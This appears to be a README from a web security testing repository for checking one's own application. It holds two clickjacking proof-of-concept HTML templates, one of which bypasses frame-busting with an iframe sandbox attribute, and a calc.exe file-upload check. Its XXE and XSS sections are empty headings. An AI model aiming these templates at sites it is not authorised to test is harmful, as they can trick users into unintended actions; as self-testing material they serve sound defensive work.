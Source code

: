 We will not be hosting files because most people cannot download vulnerable files off github from company networks.
Please understand how these files work before utilizing them.


### Clickjacking
Put the link to your site into the iframe section at the bottom of each file, then save as an html file. Log in to your application, then double click on the following html file so that it opens in the same browser. If you can see your website in the iframe, this proves your application is vulnerable to clickjacking.
The following files come from PortSwigger: https://portswigger.net/web-security/clickjacking

**Basic: test1.html**
```
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://www.yourSiteHere.com/dashboard"></iframe>
```

**Frame busting: test2.html**
```
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="https://www.yourSiteHere.com/dashboard"></iframe>
```



Before testing the files below, try uploading calc.exe from a Windows computer. If it successfully uploads, start the remediation procedures. If calc.exe does not upload, or if you want to test further, attempt to upload the files below.

### XXE
Example:

Linux reflected:


Windows reflected:




### XSS
SVG file:


PDF file:








